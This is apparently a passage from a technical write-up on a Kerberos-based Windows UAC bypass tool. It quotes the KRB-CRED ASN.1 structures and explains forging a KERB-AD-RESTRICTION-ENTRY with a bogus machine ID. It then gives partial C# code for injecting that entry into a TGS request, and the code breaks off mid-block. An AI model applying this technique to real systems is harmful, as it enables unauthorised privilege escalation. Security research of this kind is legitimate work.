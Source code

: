 The KRB_CRED structure is the message format used to send Kerberos credentials from one principal to another. The KRB_CRED message contains a sequence of tickets to be sent along with the necessary information to use those tickets, including the session keys for each ticket. The ASN.1 module definition for the KRB_CRED structure in the Kerberos protocol should follow the following form:

```cpp
KRB-CRED        ::= [APPLICATION 22] SEQUENCE {
        pvno            [0] INTEGER (5),
        msg-type        [1] INTEGER (22),
        tickets         [2] SEQUENCE OF Ticket,
        enc-part        [3] EncryptedData -- EncKrbCredPart
}

EncKrbCredPart  ::= [APPLICATION 29] SEQUENCE {
        ticket-info     [0] SEQUENCE OF KrbCredInfo,
        nonce           [1] UInt32 OPTIONAL,
        timestamp       [2] KerberosTime OPTIONAL,
        usec            [3] Microseconds OPTIONAL,
        s-address       [4] HostAddress OPTIONAL,
        r-address       [5] HostAddress OPTIONAL
}

KrbCredInfo     ::= SEQUENCE {
        key             [0] EncryptionKey,
        prealm          [1] Realm OPTIONAL,
        pname           [2] PrincipalName OPTIONAL,
        flags           [3] TicketFlags OPTIONAL,
        authtime        [4] KerberosTime OPTIONAL,
        starttime       [5] KerberosTime OPTIONAL,
        endtime         [6] KerberosTime OPTIONAL,
        renew-till      [7] KerberosTime OPTIONAL,
        srealm          [8] Realm OPTIONAL,
        sname           [9] PrincipalName OPTIONAL,
        caddr           [10] HostAddresses OPTIONAL
}
```

Afterward, the `Ask.TGS()` method will be called to request a TGS (Service Ticket). Since we need to add a new `KERB-AD-RESTRICTION-ENTRY` structure to the service ticket, but the service ticket is encrypted using the Application Server's Long-term Key, which we do not have access to due to our current privileges, we can only add the forged `KERB-AD-RESTRICTION-ENTRY` structure to the `enc-authorization-data` element of the KRB_KDC_REQ message before constructing the KRB_KDC_REQ request.

When the KRB_KDC_REQ request is sent to the KDC, the `enc-authorization-data` element in the KRB_KDC_REQ message will be copied to the `enc-part.authorization-data` element of the service ticket, and it will be returned in the KRB_KDC_REP message. As a result, the service ticket we request will contain the forged `KERB-AD-RESTRICTION-ENTRY` and the fake MachineID.

To achieve the desired functionality, you can add the necessary code in the `lib\krb_structures\TGS_REQ.cs` file as shown below:

```c#
if (KRBUACBypass.Program.BogusMachineID)
{
    req.req_body.kdcOptions = req.req_body.kdcOptions | Interop.KdcOptions.CANONICALIZE;
    req.req_body.kdcOptions = req.req_body.kdcOptions & ~Interop.KdcOptions.RENEWABLEOK;

    // Add a KERB-AD-RESTRICTION-ENTRY but fill in a bogus machine ID.
    // Initializes a new AD-IF-RELEVANT container
    ADIfRelevant ifrelevant = new ADIfRelevant();
    // Initializes a new KERB-AD-RESTRICTION-ENTRY element
    ADRestrictionEntry restrictions = new ADRestrictionEntry();
    // Initializes a new KERB-LOCAL element, optional
    ADKerbLocal kerbLocal = new ADKerbLocal();
    // Add a KERB-AD-RESTRICTION-ENTRY element to the AD-IF-RELEVANT container
    ifrelevant.ADData.Add(restrictions);
```
